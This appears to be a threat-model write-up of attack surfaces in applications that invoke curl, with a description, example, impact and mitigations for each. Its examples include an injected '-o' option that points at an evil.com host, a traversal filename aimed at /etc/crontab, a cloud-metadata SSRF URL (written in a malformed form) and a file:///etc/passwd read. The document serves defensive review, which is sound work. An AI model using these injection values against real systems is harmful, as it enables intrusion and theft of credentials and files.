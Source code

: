 *   **Attack Surface:** URL Injection
    *   **Description:** An attacker can manipulate the URL used by `curl` to make requests to unintended destinations.
    *   **How curl Contributes:** `curl` directly fetches the resource specified by the provided URL. If this URL is constructed using unsanitized user input, it becomes vulnerable.
    *   **Example:** An application takes a website name from user input and constructs a URL like `curl "https://" + user_input + "/data.json"`. An attacker could input `evil.com -o /tmp/malicious` leading to `curl "https://evil.com -o /tmp/malicious/data.json"`, potentially downloading a malicious file.
    *   **Impact:** Server-Side Request Forgery (SSRF), where the application can be tricked into making requests to internal or external resources on behalf of the attacker. This can lead to data exfiltration, access to internal services, or further attacks.
    *   **Risk Severity:** High
    *   **Mitigation Strategies:**
        *   Input Sanitization: Thoroughly validate and sanitize any user input used to construct URLs.
        *   URL Whitelisting: Only allow requests to a predefined list of trusted domains or paths.
        *   Avoid String Concatenation: Use secure URL construction methods provided by libraries or frameworks.

*   **Attack Surface:** Filename Injection (for saving downloaded content)
    *   **Description:** An attacker can control the filename used when `curl` saves downloaded content to the local file system.
    *   **How curl Contributes:** The `-o` or `--output` options in `curl` allow specifying the output filename. If this filename is derived from unsanitized user input, it's vulnerable.
    *   **Example:** An application allows users to download files and uses `curl -o $user_provided_filename $download_url`. An attacker could provide a filename like `../../../../etc/crontab`, potentially overwriting critical system files.
    *   **Impact:** Arbitrary file write, potentially leading to privilege escalation, denial of service, or code execution.
    *   **Risk Severity:** Critical
    *   **Mitigation Strategies:**
        *   Strict Filename Validation: Implement strict validation rules for filenames, allowing only alphanumeric characters and specific safe symbols.
        *   Use Predefined Safe Directories: Save downloaded files to a designated safe directory and avoid using user-provided paths directly.
        *   Randomized Filenames: Generate unique, random filenames for downloaded content.

*   **Attack Surface:** Insecure TLS Configuration
    *   **Description:** The application configures `curl` to bypass or weaken TLS/SSL security measures.
    *   **How curl Contributes:** `curl` provides options like `-k` or `--insecure` to disable certificate verification and options to specify TLS versions. Misuse of these options weakens security.
    *   **Example:** An application uses `curl --insecure https://vulnerable-site.com` to avoid certificate errors. This makes the application susceptible to Man-in-the-Middle (MITM) attacks.
    *   **Impact:** Man-in-the-Middle (MITM) attacks, allowing attackers to intercept and potentially modify communication between the application and the remote server. This can lead to data breaches or injection of malicious content.
    *   **Risk Severity:** Critical
    *   **Mitigation Strategies:**
        *   Enable Certificate Verification: Ensure `curl` is configured to verify server certificates by default. Avoid using `-k` or `--insecure` in production.
        *   Use Strong TLS Versions: Configure `curl` to use the latest and most secure TLS versions (e.g., TLSv1.3).
        *   Proper Certificate Management: Ensure the system has up-to-date and trusted Certificate Authorities (CAs).

*   **Attack Surface:** Server-Side Request Forgery (SSRF) via User-Controlled URLs
    *   **Description:** An attacker can provide a URL that the application, using `curl`, will fetch, potentially targeting internal resources.
    *   **How curl Contributes:** `curl` is used to make HTTP requests to arbitrary URLs. If the target URL is directly or indirectly controlled by the user without proper validation, it's vulnerable.
    *   **Example:** An application allows users to provide a URL to fetch metadata. An attacker could provide `http://localhost:169.254.169.254/latest/meta-data/` (AWS metadata endpoint) to access sensitive information about the server.
    *   **Impact:** Access to internal network resources, potential data breaches, and the ability to perform actions on internal services.
    *   **Risk Severity:** Critical
    *   **Mitigation Strategies:**
        *   Strict URL Validation and Sanitization: Thoroughly validate and sanitize user-provided URLs.
        *   URL Whitelisting: Only allow requests to a predefined list of trusted external resources.
        *   Network Segmentation: Isolate the application's network to limit access to internal resources.

*   **Attack Surface:** Local File Read via `file://` Protocol
    *   **Description:** An attacker can use the `file://` protocol with `curl` to read local files on the server.
    *   **How curl Contributes:** `curl` supports the `file://` protocol, allowing it to access local files. If user input controls the URL and the `file://` scheme is not restricted, it's vulnerable.
    *   **Example:** An application uses user input to construct a URL for `curl`. An attacker could provide `file:///etc/passwd` to read the contents of the password file.
    *   **Impact:** Disclosure of sensitive local files, potentially including configuration files, credentials, or application code.
    *   **Risk Severity:** High
    *   **Mitigation Strategies:**
        *   Disable or Restrict `file://` Protocol: Configure `curl` or the application to disallow or restrict the use of the `file://` protocol.
        *   Strict URL Validation: Prevent users from specifying the `file://` scheme in URLs.

*   **Attack Surface:** Exposure of Credentials in Command-Line Arguments
    *   **Description:** Sensitive information like usernames and passwords are passed directly in the `curl` command-line arguments.
    *   **How curl Contributes:** `curl` allows passing authentication credentials directly in the command using options like `-u user:password`.
    *   **Example:** An application executes `curl -u myuser:mypassword https://api.example.com/data`. This command, including the password, might be logged or visible in process listings.
    *   **Impact:** Credential theft if the command is logged, exposed in process listings, or otherwise accessible to attackers.
    *   **Risk Severity:** High
    *   **Mitigation Strategies:**
        *   Avoid Passing Credentials in Command Line: Use more secure methods for providing credentials, such as environment variables, configuration files with restricted permissions, or dedicated credential management libraries.
        *   Secure Logging Practices: Ensure that logs do not capture sensitive information passed in command-line arguments.

*   **Attack Surface:** Vulnerabilities in `libcurl` and its Dependencies
    *   **Description:** Security vulnerabilities exist within the `libcurl` library itself or its underlying dependencies (e.g., OpenSSL, libssh).
    *   **How curl Contributes:** The application relies on the security of the `curl` library and its dependencies. Vulnerabilities in these components can directly impact the application.
    *   **Example:** A known vulnerability in `libcurl` allows for a buffer overflow when handling a specific type of response, leading to potential remote code execution.
    *   **Impact:** Remote code execution, denial of service, information disclosure, depending on the specific vulnerability.
    *   **Risk Severity:** Critical
    *   **Mitigation Strategies:**
        *   Keep `curl` and Dependencies Updated: Regularly update `curl` and its dependencies to the latest versions to patch known security vulnerabilities.
        *   Monitor Security Advisories: Stay informed about security advisories and vulnerability reports related to `curl` and its dependencies.
        *   Use Static Analysis Tools: Employ static analysis tools to identify potential vulnerabilities in the application's use of `curl`.